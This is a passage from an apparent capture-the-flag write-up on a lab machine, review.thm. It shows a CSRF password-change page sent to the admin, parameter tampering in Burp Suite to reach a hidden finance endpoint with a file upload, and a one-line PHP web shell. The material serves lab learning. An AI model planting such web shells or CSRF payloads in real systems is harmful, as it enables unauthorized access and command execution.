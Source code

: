 ```html
</body>
</html>
```
{: file="update_password.html" }

Now we can send the link for it as `http://10.14.101.76/update_password.html` to the admin user:

![Web 80 Chat Csrf Password Change](web_80_chat_csrf_password_change.webp){: width="1200" height="600"}

We can see the admin user visiting our payload and the password for the admin user should be changed.

```console
10.10.115.72 - - [20/Sep/2025 17:40:23] "GET /update_password.html HTTP/1.1" 200 -
```

Trying to log in with the new credentials, we are successful and able to capture the second flag.

![Web 80 Admin3](web_80_admin3.webp){: width="1200" height="600"}

## Shell as root

### Shell Inside Container

Whichever path we choose, we now have access to the application as admin and, on `http://review.thm/dashboard.php`, we can see the **Select Feature** option with one option: **Lottery Feature** and choosing it simply gives a **Coming Soon** message.

![Web 80 Admin Feature](web_80_admin_feature.webp){: width="1200" height="600"}

Checking the request in Burp Suite, we can see it makes a POST request to `/dashboard.php` with the feature set to `lottery.php`.

![Web 80 Admin Dashboard Feature Request](web_80_admin_dashboard_feature_request.webp){: width="500" height="500"}

With the feature being `lottery.php`, and remembering the note we found in `/mail/dump.txt`, it seems this gives us access to the internal web application mentioned. From the note, apart from the `/lottery.php` endpoint, there was also a `/finance.php` endpoint. We can intercept the request in Burp Suite, change `lottery.php` to `finance.php`, and forward it to try to access that endpoint.

![Web 80 Admin Dashboard Finance](web_80_admin_dashboard_finance.webp){: width="1350" height="550"}

Doing so, we can now see `finance.php` being loaded and it asks for a password.

![Web 80 Admin Dashboard Finance2](web_80_admin_dashboard_finance2.webp){: width="1200" height="600"}

Using the password we discovered in `/mail/dump.txt`, we get a form for uploading files.

![Web 80 Admin Dashboard Finance3](web_80_admin_dashboard_finance3.webp){: width="1200" height="600"}

Since it is also a PHP application, we can try to upload a PHP web shell. First, we create the web shell:

```php
<?php system($_GET["cmd"]); ?>
```
{: file="shell.php" }
